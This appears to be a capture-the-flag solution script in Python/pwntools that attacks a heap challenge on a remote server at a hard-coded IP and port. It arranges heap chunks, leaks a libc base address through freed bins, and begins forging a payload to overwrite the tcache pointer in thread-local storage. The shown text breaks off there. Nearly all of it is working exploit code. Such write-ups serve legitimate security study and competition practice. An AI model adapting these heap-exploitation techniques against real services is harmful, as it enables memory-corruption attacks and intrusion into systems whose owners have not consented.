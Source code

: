 ```
else:                        #remtoe
    sh = remote('39.105.134.183', 18866)

def GDB():
    gdb.attach(sh, '''
    telescope 0x50F0+0x0000555555554000 16
    heap bins
    break *0x7ffff7e73c11
    ''')

def Num(n):
    sh.sendline(str(n))

def Cmd(n):
    sh.recvuntil('&gt;&gt; ')
    Num(n)

def Create(sz, cont=''):
    Cmd(1)
    sh.recvuntil('(: Size: ')
    Num(sz)
    if(cont==''):
        cont='A'*sz
    sh.recvuntil('(: Content: ')
    sh.send(cont)

def Edit(idx, cont):
    Cmd(2)
    sh.recvuntil('Index: ')
    Num(idx)
    sh.recvuntil('Content: ')
    sh.send(cont)

def Delete(idx):
    Cmd(3)
    sh.recvuntil('Index: ')
    Num(idx)

def Show(idx):
    Cmd(4)
    sh.recvuntil('Index: ')
    Num(idx)
    sh.recvuntil('Content: ')

#chunk arrange
Create(0x420)   #A
Create(0x420)   #B  gap
Create(0x410)   #C
Create(0x410)   #D  gap
Create(0x430)   #E
Create(0x410)   #F  gap
Create(0x440)   #G

#leak libc addr
Delete(0)       #UB&lt;=&gt;A
Create(0x450)   #LB&lt;=&gt;A     A|B|C|D|top 
Show(0)
libc.address = u64(sh.recv(6).ljust(8, '\x00'))-0x1e3ff0
Log('libc.address')

#tcache ptr in TLS = chunkA
addr = libc.address+0x1eb538
exp = flat(0, 0, 0, addr-0x20)
```